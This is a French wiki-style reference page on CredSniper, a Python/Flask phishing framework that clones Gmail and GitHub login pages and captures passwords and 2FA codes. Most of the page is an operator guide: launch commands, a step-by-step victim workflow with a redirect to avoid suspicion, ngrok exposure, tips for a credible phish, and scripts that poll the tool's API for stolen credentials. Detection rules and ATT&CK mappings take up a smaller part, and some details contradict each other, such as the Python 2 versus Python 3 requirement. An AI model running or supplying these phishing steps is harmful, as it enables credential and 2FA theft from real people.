

# CredSniper — Phishing avec support du 2FA (credential harvesting léger)

> [!info] **En 1 phrase**
> CredSniper est un framework de phishing en Python/Flask qui supporte la capture d'identifiants avec un flux 2FA (token OTP), l'intégration SSL et le tunneling pour générer des URL HTTPS, avec un tracking basique.

---

## Overview

| Champ | Valeur |
|---|---|
| Nom complet | CredSniper |
| Description | Framework de phishing modulaire (Flask) : pages de login clonées, capture identifiants + token 2FA, SSL via Let's Encrypt, API REST de récupération |
| Catégorie | Social Engineering & Phishing |
| Sous-catégorie | Credential Harvesting |
| Type d'outil | Framework web (serveur Flask + modules) |
| Licence | MIT (à vérifier sur le dépôt) |
| Open source / propriétaire | Open source |
| Langage(s) | Python 3, Flask, Jinja2, HTML |
| Développeur / organisation | Colby Prior (ustayready / phin3has) |
| Dépôt officiel | https://github.com/ustayready/CredSniper |
| Documentation officielle | https://github.com/ustayready/CredSniper#readme |
| Date de création | 27 octobre 2017 |
| État du projet | non maintenu (dernière activité ~2018) |
| Dernière version connue | Pas de release numérotée stable (master, 2018) |
| Systèmes compatibles | Linux (Python 3), Windows possible sous WSL |

> [!note] Pour vérifier / compléter
> Le dépôt d'origine `thisismycat3/CredSniper` (Python 2) a été remplacé par `ustayready/CredSniper` qui exige **Python 3**. Vérifier l'existence de forks à jour avant de l'utiliser en production de test.

---

## Concept

CredSniper, initialement publié par phin3has (Colby Prior), est un petit framework Flask conçu pour démontrer le phishing avec un **flux 2FA intégré** : il clone un site, capture l'identifiant et le mot de passe, puis affiche une page simulant une demande de code 2FA pour capturer aussi le token OTP. Il inclut la génération de certificats SSL auto-signés (via OpenSSL), un serveur HTTP/HTTPS, et un support de tunneling pour exposer l'attaque à distance.

Dans la chaîne du phishing, il se situe entre le **clonage statique** (type SocialFish, simple mais sans flux 2FA) et le **reverse proxy** (type Evilginx2/Modlishka, qui relaient le vrai service et interceptent les sessions). Contrairement à ces reverse proxies, CredSniper héberge une **copie statique** du site et ne réécrit pas le trafic : il est simple, léger et parfait pour de la démonstration pédagogique et des tests rapides en lab, mais limité en cas de grosses campagnes. Le projet original est écrit en **Python 2** et n'est plus maintenu : plusieurs forks compatibles Python 3 circulent sur GitHub. À réserver à un cadre autorisé (lab, exercice de sensibilisation) : le clonage de sites et la capture d'identifiants sont illégaux hors périmètre.

Sa vraie force par rapport à un harvester basique : l'**architecture modulaire**. Chaque cible (Gmail, GitHub, exemple générique) est un module Python qui décrit ses pages, son flux de capture et sa gestion du 2FA. Les credentials en cours de capture sont temporairement stockés dans un fichier `.cache` (pendant le flux multi-pages) puis consolidés dans `.sniped` (JSON) une fois la capture complète. Une **API REST** authentifiée par jeton (`api_token`) permet d'intégrer les identifiants volés dans d'autres applications sans toucher au terminal.



---

## Concepts fondamentaux

| Concept | Explication |
|---|---|
| Flux 2FA simulé | Après la saisie du mot de passe, CredSniper affiche une page de « vérification en deux étapes » pour récupérer aussi le code OTP (TOTP/SMS) que la victime saisit |
| U2F / fallback | Sur Gmail, CredSniper force le fallback SMS ou TOTP pour éviter le prompt U2F (clé physique) qui ne se laisse pas phisher |
| Module | Un sous-dossier `modules/<cible>/` contenant le script Python (routes Flask) et les templates Jinja2 (login, password, twofactor, error) |
| `.cache` | Fichier temporaire stockant identifiant/mot de passe le temps que le flux 2FA se termine |
| `.sniped` | Fichier permanent (JSON) contenant les captures complètes, avec un identifiant et un statut « seen » |
| API REST | Endpoints `/creds/view`, `/creds/seen/<id>`, `/config` protégés par `api_token` généré aléatoirement au démarrage |
| `--final` | URL vers laquelle la victime est redirigée une fois la capture terminée (le vrai service), pour ne pas éveiller les soupçons |
| Let's Encrypt | Via `--ssl`, CredSniper prépare/sert des certificats pour le hostname fourni (`--hostname`) |

---

## Installation

### Depuis les sources (Python 3)

```bash
git clone https://github.com/ustayready/CredSniper.git
cd CredSniper
python3 -m pip install -r requirements.txt
python3 credsniper.py --help
```

### Dépendances

```bash
python3 -m pip install flask jinja2 mechanicalsoup requests
```

> [!warning] Prérequis & problèmes potentiels
> - **Python 3 requis** (le dépôt d'origine Python 2 ne compile plus sur les distributions récentes).
> - Le module Gmail utilise `mechanicalsoup` pour rejouer l'authentification réelle et déclencher le 2FA : si Google modifie ses champs de formulaire, la capture échoue (bug connu, issue #19).
> - Le mode `--ssl` attend des certificats dans `certs/<hostname>.cert.pem` et `certs/<hostname>.privkey.pem` (script de génération ou Let's Encrypt).
> - Le clonage des pages est **statique** : les assets externes (JS/CSS) peuvent casser si le réseau de la victime bloque les requêtes croisées.

---

## Configuration

CredSniper se configure principalement par **arguments en ligne de commande** et par un fichier de configuration partagé pour l'API.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `--module <nom>` | Charge le module de phishing (gmail, github, example) | chaîne | Décide des pages et du flux | `--module gmail` |
| `--twofactor` | Active la capture du token 2FA | booléen | Ajoute l'étape twofactor.html | `--twofactor` |
| `--final <url>` | URL de redirection après capture | URL | Évite d'alerter la victime | `--final https://accounts.google.com` |
| `--hostname <fqdn>` | Hostname utilisé pour le SSL | FQDN | Nom du certificat | `--hostname phish.example.com` |
| `--ssl` | Active le HTTPS (Let's Encrypt / certs locaux) | booléen | Force le port 443 | `--ssl` |
| `--port <n>` | Port d'écoute (80 par défaut, 443 avec --ssl) | entier | Exposition du service | `--port 443` |
| `--verbose` | Affichage détaillé des captures | booléen | Logs horodatés | `--verbose` |

Exemple de config JSON pour l'API :

```json
{
  "enable_2fa": true,
  "module": "gmail",
  "api_token": "un-jeton-aleatoire-a-remplacer"
}
```

> [!note] À vérifier
> La structure exacte des fichiers de config et la génération des certificats dépendent de la branche utilisée (master vs forks). Consulter le README du dépôt cloné.

---

## Architecture interne

CredSniper est une application Flask minimale pilotée par la classe `CredSniper()` dans `credsniper.py` :

- **`validate_args()`** : parsing argparse (`--module`, `--twofactor`, `--port`, `--ssl`, `--verbose`, `--final`, `--hostname`) ; si `--ssl`, le port passe automatiquement à 443.
- **`prepare_storage()`** : crée `.cache` et `.sniped` (fichiers plats, pas de BDD).
- **`prepare_module()`** : charge dynamiquement `modules.<nom>.<nom>` via `importlib`, installe le moteur Jinja2 (`PackageLoader`) et enregistre les routes Flask décrites par le module (login, password, twofactor, redirect).
- **`prepare_api()`** : charge `api.py` avec un `api_token` aléatoire, enregistre `/creds/view`, `/creds/seen/<id>`, `/config`.
- **`app.run(...)`** : démarre le serveur WSGI de Flask sur `0.0.0.0`, avec contexte SSL si demandé (`certs/<hostname>.cert.pem` / `.privkey.pem`).

Le module **gmail** reproduit le flux multi-étapes de Google (login → password → authenticator/SMS/touchscreen), stocke le couple dans `.cache`, et appelle la vraie API Google (via mechanicalsoup) pour déclencher le vrai challenge 2FA : le token que la victime saisit est donc souvent **le vrai code** du compte. Le module **github** valide les credentials en direct et extrait les cookies de session. Les captures sont journalisées dans le terminal (mode `--verbose`) et consultables via l'API.

---

## Commandes

### Commandes principales

```bash
python3 credsniper.py --module gmail --final https://accounts.google.com --hostname phish.example.com --twofactor
```

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `python3 credsniper.py --help` | Affiche l'aide et la syntaxe | Liste des arguments argparse |
| `python3 credsniper.py --module example --final https://example.com --hostname phish.example.com` | Phishing simple sans 2FA | Capture identifiants uniquement |
| `python3 credsniper.py --module gmail --twofactor --final https://accounts.google.com --hostname phish.example.com` | Phishing Gmail avec flux 2FA | Capture login + password + OTP |
| `python3 credsniper.py --module github --twofactor --final https://github.com --hostname phish.example.com` | Phishing GitHub avec validation live | Credentials + cookies de session |
| `python3 credsniper.py --module gmail --ssl --hostname phish.example.com --final https://accounts.google.com --twofactor` | HTTPS avec certificat | Service en HTTPS sur 443 |

### Commandes avancées

```bash
# Lancer en arrière-plan avec logs
nohup python3 credsniper.py --module gmail --twofactor --ssl \
  --hostname phish.example.com --final https://accounts.google.com --verbose \
  > /var/log/credsniper.log 2>&1 &

# Récupérer les identifiants via l'API (jeton affiché au démarrage)
curl -s "http://10.10.20.15/creds/view?api_token=TOKEN" | python3 -m json.tool
```

---

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `--module <nom>` | Module de phishing (obligatoire) | `--module gmail` | Basic |
| `--final <url>` | Redirection après capture (obligatoire) | `--final https://accounts.google.com` | Basic |
| `--hostname <fqdn>` | Hostname pour le SSL (obligatoire) | `--hostname phish.example.com` | Basic |
| `--port <n>` | Port d'écoute (défaut 80) | `--port 8443` | Basic |
| `--twofactor` | Active le flux 2FA | `--twofactor` | Intermediate |
| `--ssl` | HTTPS via Let's Encrypt / certs | `--ssl` | Intermediate |
| `--verbose` | Logs détaillés horodatés | `--verbose` | Intermediate |

> [!tip] Options les plus utiles au quotidien
> `--twofactor` (la raison d'être de l'outil), `--final` (redirection crédible), `--verbose` (suivi en temps réel des captures), `--ssl` + `--hostname` (HTTPS crédible).

---

## Exemples pratiques

### Beginner

```bash
# Test local simple avec le module générique
python3 credsniper.py --module example --final https://example.com --hostname 127.0.0.1
# Ouvrir http://127.0.0.1 dans un navigateur, saisir test:Tartempion2024!
# Les credentials apparaissent dans le terminal.
```

### Intermediate

```bash
# Phishing Gmail complet avec flux 2FA
python3 credsniper.py --module gmail --twofactor \
  --final https://accounts.google.com --hostname phish.example.com --verbose
# La victime saisit email/password → page « Vérification en 2 étapes »
# → saisit le code OTP → tout est loggé + visible via l'API.
```

### Advanced

```bash
# HTTPS avec certificat pour le domaine de phishing
# 1) Générer le certificat (Let's Encrypt ou auto-signé) :
#    certs/phish.example.com.cert.pem et certs/phish.example.com.privkey.pem
# 2) Lancer avec --ssl
python3 credsniper.py --module gmail --twofactor --ssl \
  --hostname phish.example.com --final https://accounts.google.com
```

### Expert

```bash
# Pipeline : exposer derrière un tunnel et consommer l'API
ngrok http 443 > /dev/null &
sleep 3
python3 credsniper.py --module gmail --twofactor --ssl --verbose \
  --hostname phish.example.com --final https://accounts.google.com --port 443 &
# Récupérer automatiquement les captures :
watch -n 5 "curl -s 'http://10.10.20.15/creds/view?api_token=TOKEN' | jq '.'"
```

---

## Workflow complet (scénario pas à pas)

1. **Étape 1 — Cloner et installer les dépendances.**
   ```bash
   git clone https://github.com/ustayready/CredSniper.git
   cd CredSniper
   python3 -m pip install -r requirements.txt
   ```
2. **Étape 2 — Lancer le phishing avec capture 2FA.**
   ```bash
   python3 credsniper.py --module gmail --twofactor --hostname phish.example.com \
     --final https://accounts.google.com
   ```
3. **Étape 3 — Partager l'URL** — la victime voit la page clonée sous votre domaine/IP.
4. **Étape 4 — Enchaîner le flux** — après la saisie des identifiants, l'outil affiche une fausse page de confirmation 2FA.
5. **Étape 5 — Récupérer les identifiants + token** — les données apparaissent dans le terminal en temps réel.
6. **Étape 6 — Rediriger la victime** — CredSniper envoie la victime vers `--final` (le vrai service) pour ne rien laisser transparaître.

---

## Scénarios avancés

### Scénario 1 : phishing avec flux 2FA complet

```bash
python3 credsniper.py --module gmail --twofactor --verbose \
  --hostname phish.example.com --final https://accounts.google.com
# Étape 1 : capture email + mot de passe.
# Étape 2 : affiche une fausse page "Vérification en 2 étapes".
# Étape 3 : capture le code OTP que la victime va entrer (souvent le vrai code
# du service) puis redirige la victime vers le vrai site.
```

### Scénario 2 : exposition à distance via tunneling

```bash
# Utiliser un tunnel (Ngrok / serveo) devant le port 443 de CredSniper :
ngrok http 443
# Puis lancer CredSniper sur le port 443 local et partager l'URL publique
# générée par Ngrok avec la victime.
```

### Scénario 3 : tests locaux via le fichier hosts

```bash
# Mapper le domaine cible vers l'IP locale pour des tests hors réseau
echo "127.0.0.1 accounts.google.com" | sudo tee -a /etc/hosts
python3 credsniper.py --module gmail --twofactor --hostname 127.0.0.1 \
  --final https://accounts.google.com
```

### Scénario 4 : intégration des captures dans un outil de reporting

```bash
# Récupérer les credentials capturés et les marquer comme lus
curl -s "http://10.10.20.15/creds/view?api_token=TOKEN" | jq '.'
curl -s "http://10.10.20.15/creds/seen/1?api_token=TOKEN" -X POST
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Initial Access | Phishing ciblé : le lien amène la victime sur la page clonée (T1566.002) |
| Credential Access | Capture d'identifiants + token 2FA (T1539 / T1621 via OTP) |
| Collection | Stockage local des captures (.cache / .sniped) et exposition par API |
| Post-exploitation | Rejeu du token capturé pour valider un bypass 2FA (démo) |
| Sensibilisation | Campagnes d'awareness : montrer l'efficacité d'un phish 2FA |
| Red team | Tests AiTM simplifiés quand un reverse proxy est surdimensionné |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access | Phishing: Spearphishing Link | T1566.002 | Le lien vers la page clonée initie l'attaque | Analyse URL/sandbox email | SPF/DKIM/DMARC, filtrage web |
| Initial Access | Phishing: Spearphishing via Service | T1566.003 | Le lien peut transiter par messageries/services | Détection de domaines suspects | Sensibilisation, MFA FIDO2 |
| Credential Access | Multi-Factor Authentication Interception | T1111 | Capture du code OTP pendant le flux 2FA | Double connexion anormale | Clés FIDO2/WebAuthn (non phishables) |
| Credential Access | Steal Web Session Cookie | T1539 | Le module GitHub extrait les cookies de session | Rejeu de session détecté | Rotation de session, géofencing |
| Credential Access | Brute Force | T1110 | Réutilisation des identifiants capturés pour de l'accès | Tentatives de login multiples | MFA, verrouillage de compte |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> CredSniper relève principalement de T1566.002 (phishing via lien) et T1111 (interception MFA).

---

## Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| URL sur IP brute ou domaine non officiel | Page de login servie hors des domaines de l'entreprise |
| Certificat SSL auto-signé ou émis pour un nom suspect | Chaîne de confiance invalide ou récente |
| Double saisie d'identifiants demandée de manière inhabituelle | Phish 2FA : login + OTP sur deux pages successives |
| Page clonée avec assets cassés | Différences visuelles avec le vrai site |
| Connexions sortantes vers un serveur Flask sur port 80/443 | Trafic HTTP/HTTPS vers une IP inconnue |
| Fichiers `.cache`/`.sniped` sur un poste d'opérateur | Indicateur de compromission locale (post-exploitation) |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — web server : requêtes vers /creds/view (API CredSniper)
title: CredSniper API Access
id: a1b2c3d4-e5f6-7890-abcd-ef1234567890
status: experimental
logsource:
    category: webserver
detection:
    selection:
        cs-uri-path|contains:
            - '/creds/view'
            - '/creds/seen/'
    condition: selection
level: high
```

```bash
# Suricata — trafic vers une page clonée servie par Flask (identifiants POST)
alert tcp any any -> any 80 (msg:"Potential CredSniper phishing form POST"; \
  content:"POST"; http_method; content:"passwd"; http_client_body; nocase; \
  classtype:attempted-user; sid:20260002; rev:1;)
```

---

## Automatisation

```bash
# Bash — lancer le harvester et surveiller l'API
python3 credsniper.py --module gmail --twofactor --verbose \
  --hostname phish.example.com --final https://accounts.google.com &
sleep 5
while true; do
  curl -s "http://10.10.20.15/creds/view?api_token=$TOKEN" | tee /tmp/creds.json
  sleep 30
done
```

```python
# Python — récupération périodique des captures via l'API
import json, time, requests

API = "http://10.10.20.15/creds/view"
TOKEN = "le-jeton-affiché-au-démarrage"

while True:
    r = requests.get(API, params={"api_token": TOKEN})
    data = r.json()
    for cred in data.get("creds", []):
        print(json.dumps(cred, indent=2))
    time.sleep(30)
```

---

## Output et parsing

Les captures sont émises sur **stdout** (mode `--verbose`) et stockées en **JSON** dans `.sniped` puis exposées par l'**API REST** (`/creds/view`). Le format est interrogeable avec `jq`.

```bash
# Parser le fichier de captures
jq '.' .sniped

# Récupérer et filtrer les captures contenant un token
curl -s "http://10.10.20.15/creds/view?api_token=$TOKEN" \
  | jq '.creds[] | select(.otp != null)'
```

```python
# Python — parsing du .sniped
import json
with open(".sniped") as f:
    for line in f:
        cred = json.loads(line)
        print(cred.get("username"), cred.get("password"), cred.get("otp"))
```

> [!note] À vérifier
> Le format exact du JSON de `.sniped` dépend de la version du code (master vs forks) : adapter les clés (`username`, `password`, `otp`).

---

## Intégrations

- [[Tools| Outils]] global
- [[Outil - Evilginx2]] — la « vraie » alternative proxy pour un bypass 2FA persistant
- [[Outil - SocialFish]] — clone statique simple, complément pédagogique
- [[Outil - GoPhish]] — envoi des emails de phishing dont le lien pointe vers CredSniper
- [[Outil - SET]] — clonage et harvester générique intégré à Metasploit
- [[Outil - BeEF]] — hook du navigateur une fois la victime sur la page clonée

```text
GoPhish → email phish → CredSniper (login+OTP) → .sniped → API → report
SocialFish → clone simple → CredSniper → 2FA capture → Evilginx2 (session)
```

---

## Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| [[Outil - Evilginx2]] | Proxy AiTM, cookie de session réel, bypass 2FA complet | Nécessite domaine + certificat + DNS wildcard | Phishing 2FA « professionnel » |
| [[Outil - Modlishka]] | Réplication de site entière, multi-domaine | Lourd, gourmand | Tests AiTM à grande échelle |
| [[Outil - SocialFish]] | Simple, rapide, tunneling intégré | Pas de flux 2FA natif (avant v3) | Démo rapide |
| [[Outil - SET]] | Intégré à Metasploit, beaucoup de vecteurs | Très connu des AV | Campagnes multi-vecteurs |
| [[Outil - GoPhish]] | Templates, tracking, reporting | Pas de capture 2FA avancée | Campagnes d'awareness |

> **Quand utiliser CredSniper plutôt qu'Evilginx2 ?** Quand le but est une **démonstration rapide de phish 2FA en lab**, sans infrastructure : CredSniper se lance en une commande sur un VPS, là où Evilginx2 exige domaine contrôlé, DNS wildcard et phishlet maintenu.

---

## Performance

- Framework **très léger** (Flask) : un VPS de petite taille (1 vCPU / 1 Go RAM) gère facilement des dizaines de victimes simultanées.
- Le clonage statique limite la charge : pas de réécriture de contenu en vol, contrairement aux reverse proxies.
- La validation live de Gmail (mechanicalsoup) ajoute une latence et dépend de la disponibilité de l'API Google.
- Pas de base de données : les fichiers plats `.cache`/`.sniped` conviennent à des volumes modestes ; au-delà de quelques centaines de captures, passer à une ingestion externe (API → SIEM/BDD).

> [!note] À vérifier
> Aucun benchmark officiel n'existe ; ces ordres de grandeur proviennent de déploiements lab documentés.

---

## Troubleshooting

### Common problems

#### Problème : `ValueError: The 'credsniper' package was not installed in a way that PackageLoader understands`

- **Cause** : les templates Jinja2 ne sont pas trouvés hors installation pip.
- **Solution** : installer le paquet (`python3 setup.py install` ou `pip install .`) ou exécuter depuis la racine du dépôt cloné.
- **Vérification** : `python3 -c "import credsniper"`.

#### Problème : l'étape 2FA échoue sur Gmail (issue #19)

- **Cause** : Google a renommé/supprimé le champ `Passwd` de son formulaire, le `trigger()` ne trouve plus le champ.
- **Solution** : patcher le template du module (renommer le champ en `Passwd`) ou utiliser le module `example`/`github`.
- **Vérification** : inspecter la source de `modules/gmail/templates/login.html`.

#### Problème : erreur SSL « certificate not found »

- **Cause** : `--ssl` sans certificats dans `certs/<hostname>.cert.pem` et `certs/<hostname>.privkey.pem`.
- **Solution** : générer les certificats (Let's Encrypt/certbot ou `openssl req`).
- **Vérification** : `ls certs/`.

#### Problème : la victime voit des assets cassés

- **Cause** : clonage statique, les ressources externes (Google CDN) ne sont pas répliquées.
- **Solution** : héberger le clone sur un domaine HTTPS contrôlé et vérifier le rendu avec un navigateur de test.
- **Vérification** : comparer le rendu avec le vrai site.

---

## Sécurité de l'outil

- **Données capturées** : identifiants et tokens sont **sensibles** ; `.sniped` doit être protégé (chmod 600) et purgé en fin de mission.
- **API REST** : protéger le `api_token` (affiché en clair au démarrage) — il donne accès à toutes les captures.
- **Exposition** : ne jamais exposer le terminal/processus à des tiers ; restreindre le serveur au réseau d'engagement.
- **HTTPS** : privilégier `--ssl` avec un vrai certificat ; un certificat auto-signé déclenche une alerte navigateur.
- **Légal** : capture d'identifiants sans autorisation = infraction pénale. Périmètre écrit obligatoire.

---

## Limitations

- Le flux 2FA est **simulé ou semi-réel** : il capture le code saisi mais ne fournit pas de session persistante rejouable (contrairement à Evilginx2/Modlishka).
- Clonage **statique** : assets externes non répliqués, mises en page qui cassent, pas de réécriture d'URL.
- Projet **non maintenu** : compatibilité Python 3 fragile, modules dépendants des évolutions des cibles (Gmail, GitHub).
- Pas de tracking/rapports de campagne (ouvertures, clics) : à coupler avec [[Outil - GoPhish]].
- Les clés de sécurité FIDO2/U2F ne peuvent pas être contournées (CredSniper tente seulement de forcer un fallback).

---

## Cheatsheet

```bash
# Phishing simple sans 2FA
python3 credsniper.py --module example --final https://example.com --hostname phish.example.com

# Phishing Gmail avec flux 2FA
python3 credsniper.py --module gmail --twofactor \
  --final https://accounts.google.com --hostname phish.example.com

# Phishing en HTTPS
python3 credsniper.py --module gmail --twofactor --ssl \
  --hostname phish.example.com --final https://accounts.google.com

# Mode verbeux pour suivre les captures en direct
python3 credsniper.py --module gmail --twofactor --verbose \
  --final https://accounts.google.com --hostname phish.example.com

# Récupérer les captures via l'API
curl -s "http://10.10.20.15/creds/view?api_token=TOKEN" | jq '.'

# Parser les captures locales
jq '.' .sniped
```

---

## Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Phishing modulaire avec capture d'identifiants et de token 2FA |
| **Quand l'utiliser ?** | Démo lab / audit de sensibilisation rapide sur le phish 2FA |
| **Commande principale** | `python3 credsniper.py --module gmail --twofactor --final <url> --hostname <fqdn>` |
| **Alternative principale** | [[Outil - Evilginx2]] (session réelle) / [[Outil - SocialFish]] (simple) |
| **Concepts importants** | Module, `.cache`/`.sniped`, API REST, flux 2FA, Let's Encrypt |
| **Liens associés** | [[Outil - Evilginx2]] · [[Outil - SocialFish]] · [[Outil - GoPhish]] · [[Outil - SET]] |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| URL sur IP brute ou domaine non officiel | Contrôler l'URL et le certificat |
| Certificat SSL auto-signé (pas de chaine de confiance) | Vérifier l'émetteur du certificat |
| Double saisie d'identifiants demandée de manière inhabituelle | Sensibiliser sur le phish 2FA |
| Page clonée avec assets cassés | Comparer visuellement avec le vrai site |
| HTTP au lieu de HTTPS sur une page de login | Exiger HTTPS partout |
| Connexion à un domaine récemment enregistré | Alerting DNS sur nouveaux domaines |

---

## Tips & Pièges

> [!tip] **Tips**
> - Utilisez `--ssl` pour servir du HTTPS : les navigateurs signalent moins de risques avec un certificat (même auto-signé, l'alerte peut être dépassée par un utilisateur pressé).
> - En lab, testez le flux 2FA avec `--twofactor` pour comprendre comment une victime peut croire qu'elle est sur le vrai service.
> - Mappez le domaine cible vers votre IP dans le fichier `hosts` pour des tests 100 % locaux.
> - Consommez l'API `/creds/view` pour alimenter automatiquement votre rapport plutôt que de copier le terminal.

> [!warning] **Pièges**
> - Le projet est ancien et basé sur Python 2 : sans fork maintenu, l'installation peut échouer sur les distributions récentes.
> - Le **flux 2FA est simulé** : il ne capte pas un vrai token de session (contrairement à un reverse proxy type Evilginx2).
> - Un certificat auto-signé déclenche une alerte navigateur explicite : la victime avertie se méfiera.
> - Les données capturées sont affichées en clair dans le terminal — nettoyez les logs.

---

## References

### Official

- Dépôt GitHub (d'origine) : https://github.com/ustayready/CredSniper
- Ancien dépôt Python 2 : https://github.com/thisismycat3/CredSniper
- README d'installation : https://github.com/ustayready/CredSniper#readme
- DeepWiki — architecture CredSniper : https://deepwiki.com/ustayready/CredSniper

### Security references

- MITRE ATT&CK T1566.002 — Spearphishing Link : https://attack.mitre.org/techniques/T1566/002/
- MITRE ATT&CK T1111 — Multi-Factor Authentication Interception : https://attack.mitre.org/techniques/T1111/
- MITRE ATT&CK T1539 — Steal Web Session Cookie : https://attack.mitre.org/techniques/T1539/

### Community

- Blog — Phishing 2FA et attaques AiTM : https://blog.duszynski.eu/phishing-ng-bypassing-2fa-with-modlishka/
- Issues connues du projet (ex : #19, flux Gmail) : https://github.com/ustayready/CredSniper/issues

---

**Liens :** [[Tools| Outils]] · [[Outil - Evilginx2|Evilginx2]] · [[Outil - SocialFish|SocialFish]] · [[Outil - GoPhish|GoPhish]] · [[Outil - SET|SET]]
